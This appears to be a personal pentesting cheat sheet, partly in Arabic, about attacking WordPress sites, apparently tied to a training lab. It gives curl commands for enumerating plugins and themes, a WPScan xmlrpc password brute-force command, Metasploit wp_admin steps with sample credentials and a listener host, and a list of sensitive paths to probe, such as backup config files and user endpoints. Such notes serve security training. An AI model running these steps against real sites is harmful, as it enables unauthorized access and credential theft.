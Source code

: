 WordPress File Structure:
	├── index.php
	├── license.txt
	├── readme.html
	├── wp-activate.php
	├── wp-admin
	├── wp-blog-header.php
	├── wp-comments-post.php
	├── wp-config.php
	├── wp-config-sample.php
	├── wp-content
	├── wp-cron.php
	├── wp-includes
	├── wp-links-opml.php
	├── wp-load.php
	├── wp-login.php
	├── wp-mail.php
	├── wp-settings.php
	├── wp-signup.php
	├── wp-trackback.php
	└── xmlrpc.php


Key WordPress Files:

	- index.php
	- license.txt
	- wp-activate.php
	- wp-admin
		-- /wp-admin/login.php
		-- /wp-admin/wp-login.php
		-- /login.php
		-- /wp-login.php
	- xmlrpc.php

WordPress Configuration File:
	- wp-config.php

Key WordPress Directories:

	- WP-Content
		-- index.php
		-- plugins
		-- themes
	- WP-Includes
		├── <SNIP>
		├── theme.php
		├── update.php
		├── user.php
		├── vars.php
		├── version.php
		├── widgets
		├── widgets.php
		├── wlwmanifest.xml
		├── wp-db.php
		└── wp-diff.php
----------------------------------------------------------------------
WordPress User Roles:
	
	- Administrator
	- Editor
	- Author
	- Contributor
	- Subscriber

----------------------------------------------------------------------
To Know A wordpress version:
	1) we can see a Meta in Source Code :
		we see like this:
			<link rel='https://api.w.org/' href='http://blog.inlanefreight.com/index.php/wp-json/' />
			<link rel="EditURI" type="application/rsd+xml" title="RSD" href="http://blog.inlanefreight.com/xmlrpc.php?rsd" />
			<link rel="wlwmanifest" type="application/wlwmanifest+xml" href="http://blog.inlanefreight.com/wp-includes/wlwmanifest.xml" /> 
			<meta name="generator" content="WordPress 5.3.3" />

			Now We know the version

	2) we can see a CSS And Js Version in source code Like This :
		<link rel='stylesheet' id='transportex-style-css'  href='http://blog.inlanefreight.com/wp-content/themes/ben_theme/style.css?ver=5.3.3' type='text/css' media='all' />
		<script type='text/javascript' src='http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.3.3'></script>
----------------------------------------------------------------------
Plugins and Themes Enumeration:
	- We Can Use This Command to get a plugins:
		-- curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2
 
	- We Can Use This Command to get a themes:
		-- curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2

Note: ) To Know If The Plugin Active Or Not We Can Use Curl : 
	curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta

----------------------------------------------------------------------





Note: ) the best tool to hacking wordpress is a -> "WPscan" like this :

		1) - enumeration
			-- wpscan --url http://target.com --enumerate --api-token Kffr4fdJzy9qVcTk<SNIP>

		2) - If I have User and i need know the password -> I can use "wpscan" and "rockyou.txt"
			-- wpscan --password-attack xmlrpc -t 20 -U username1, username2 -P rockyou.txt --url http://target.com




Note:) If I have valid [username and password] -> i can use metasploit to attack the wordpress: the steps:)
	1) msfconsole
	2) search wp_admin
	3) use 0
	4) options
	5) -- set rhosts blog.inlanefreight.com
		-- set username admin
		-- set password Winter2020
		-- set lhost 10.10.16.8
		-- run









Important Pathes: 
	-- /wp-content/plugins/mail-masta
	-- /wp-json/wp/v2/users
	-- /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php
	-- /xmlrpc.php
		-- if this the output: XML-RPC server accepts POST requests only.
			-- we can use this code to try a hacking: curl -X POST http://target/xmlrpc.php -d '<?xml version="1.0"?>
									<methodCall>
									  <methodName>system.listMethods</methodName>
									</methodCall>' -H "Content-Type: text/xml"





أقرأ الريتب ده : https://hossamshady.medium.com/advanced-level-for-wordpress-vulnerabilities-e93144e3a8f3

وده: https://medium.com/@keshavxplore/how-i-ethically-hacked-a-wordpress-site-in-10-minutes-using-wpscan-be5059c0c49a

وده:https://pwnb0y.medium.com/what-is-xmlrpc-php-file-and-how-to-exploit-it-bugbounty-a302e770ae59

وده:https://infosecwriteups.com/hacking-the-wordpress-sites-for-fun-and-profit-part-1-water-7ba474ced0f8

### ملفات تدور عليها :
1. /wp-login.php?action=register
2. /wp-admin/wp-login.php?action=register
3. /wp-admin/login.php?action=register
4. /wp-json/wp/v1/users
5. /wp-json/wp/v2/users
6. /wp-json/wp/v3/users
7. /wp-json/?rest_route=/wp/v3/users
8. /wp-json/?rest_route=/wp/v3/users/n
9. /index.php/?rest_route=/wp-json/wp/v3/users
10. /index.php/?rest_route=/wp/v3/users
11. /wp-content/uploads/wp-file-manager-pro/fm_backup
12. /wp-config.php.BAK
13. /wp-content/uploads/
14. /wp-content/UPLOADS/
15. /wp-content/UpLoAds/
16. /tox.ini
17. /author-sitemap.xml
18. /wp-content/debug.log
19. /wp-content/plugins/mail-masta
20. /wp-admin/login.php
21. /wp-admin/wp-login.php
22. /login.php
23. /wp-login.php
24. /wp-config.php
25. /wp-config.php_

### عشان نعرف البلاجنز اللي موجود بنستعمل الأمر ده:
curl -s -X GET http://example.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins*/' | cut -d"'" -f2*
>عشان نعرف الفيرجن بتاع الووردبريس برضو ممكن نبص علي الميتا في الهيدر فيه ميتا اسمه `generator`




### reports:


https://hackerone.com/reports/1784999








